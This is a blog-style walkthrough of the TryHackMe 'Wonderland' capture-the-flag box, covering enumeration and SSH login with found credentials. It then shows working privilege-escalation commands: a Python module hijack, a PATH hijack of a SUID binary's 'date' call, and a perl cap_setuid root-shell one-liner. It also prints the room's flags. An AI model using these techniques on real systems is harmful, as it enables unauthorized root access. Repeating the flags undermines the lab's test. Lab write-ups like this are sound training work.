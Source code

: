 ```yaml
---
title: "Wonderland"
date: 2022-10-23T23:00:10+01:00
draft: false
categories:
  - TryHackMe
---
```


{{ < post-img src="wonderland.png" alt="wonderland" style="width: 200px;" > }}

Alice in wonderland...
weirdest book I ever read as a kid and even more as an adult
Let's follow the rabbit

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```bash
                        [Status: 200, Size: 402, Words: 55, Lines: 10]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
```

"r" like rabbit...I see where it's going and I do not like it
I did not have the patience to fuzz all that (I think I should) but hey its r/a/b/b/i/t
aaaaand I hit the wall...now what?
it says "open the door" and gives us directions that feel too much like a dead end
I check the source (always) and find interesting credentials

`alice:fake_password_cause_it_wont_be_easy`

as SSH is open you know what to do

## Exploitation

```bash
alice@wonderland:~$ ls -al
total 40
drwxr-xr-x 5 alice alice 4096 May 25  2020 .
drwxr-xr-x 6 root  root  4096 May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```

Lol...you obviously cannot read it

```bash
alice@wonderland:~$ cat /root/user.txt
thm{flag_for_wonderland_population}
```
classic trickery

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

I deduce from that we have to pivot to rabbit user using that python script

```bash
alice@wonderland:~$ cat  walrus_and_the_carpenter.py
import random
poem = """The sun was shining on the sea,

...


for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

that was a bit technical and needed some "searching"
This was also the best part for me. You can actually hijack the path that python library due to the `import random`


```bash
alice@wonderland:~$ ls
random.py  root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat random.py
import os
os.system("/bin/bash")
```

python will check the script folder before its own libraries folder, which is funny

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
[sudo] password for alice:
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

Finally! we caught that rabbit! still not root though

## Privilege escalation

The rabbit got a SUID binary in his home folder

```bash
rabbit@wonderland:/home/rabbit$ ls -al
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty

rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sun, 23 Oct 2022 19:46:28 +0000
Ask very nicely, and I will give you some tea while you wait for him
tea please
Segmentation fault (core dumped)

```
Interesting behaviour...binary analysis it is

```bash
rabbit@wonderland:/home/rabbit$ which r2
rabbit@wonderland:/home/rabbit$ which gdb
```

[How can I work in these conditions?](teaParty)


```bash
rabbit@wonderland:/home/rabbit$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.8.4.19 - - [23/Oct/2022 18:54:55] "GET /teaParty HTTP/1.1" 200 -
```

```bash
└──╼ $wget http://10.10.190.164:8080/teaParty
--2022-10-23 19:54:39--  http://10.10.190.164:8080/teaParty
Connexion à 10.10.190.164:8080… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 16816 (16K) [application/octet-stream]
Sauvegarde en : « teaParty »

teaParty                                                   100%[========================================================================================================================================>]  16,42K  2,08KB/s    ds 7,9s

2022-10-23 19:54:49 (2,08 KB/s) — « teaParty » sauvegardé [16816/16816]
```

```bash
│           0x55795772918d      488d3d740e00.  lea rdi, str.Welcome_to_the_tea_party__nThe_Mad_Hatter_will_be_here_soon. ; 0x55795772a008 ; "Welcome to the tea party!\nThe Mad Hatter will be here soon."
│           0x557957729194      e897feffff     call sym.imp.puts       ; int puts(const char *s)
│           0x557957729199      488d3da80e00.  lea rdi, str._bin_echo__n_Probably_by___date___datenext_hour__R ; 0x55795772a048 ; "/bin/echo -n 'Probably by ' && date --date='next hour' -R"
│           0x5579577291a0      e89bfeffff     call sym.imp.system     ; int system(const char *string)
│           0x5579577291a5      488d3ddc0e00.  lea rdi, str.Ask_very_nicely__and_I_will_give_you_some_tea_while_you_wait_for_him ; 0x55795772a088 ; "Ask very nicely, and I will give you some tea while you wait for him"
│           0x5579577291ac      e87ffeffff     call sym.imp.puts       ; int puts(const char *s)
│           0x5579577291b1      e89afeffff     call sym.imp.getchar    ; int getchar(void)
│           0x5579577291b6      488d3d130f00.  lea rdi, str.Segmentation_fault__core_dumped_ ; 0x55795772a0d0 ; "Segmentation fault (core dumped)"
```

Basically the interesting part is ` "/bin/echo -n 'Probably by ' && date --date='next hour' -R"`. the `date` library path can also be hijacked just like we did in python
Also faking a segfault...that's so evil I should note it down! who even do that??

```bash
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" > date
rabbit@wonderland:/home/rabbit$ chmod 777 date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
Oh look he came! (lol)

```bash
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls -al
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
hatter@wonderland:/home/hatter$ cat password.txt
password_for_sane_people
```

Yeah! more enumeration...MORE!!

```bash
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

perl? okay let's ask gtfobins

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

it said yes

```bash
# cd /home/alice
# ls
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt
thm{the_shech_sheshire_cheshirre_that_fat_cat_is_creepy}
```

Weirdest CTF of my whole life!
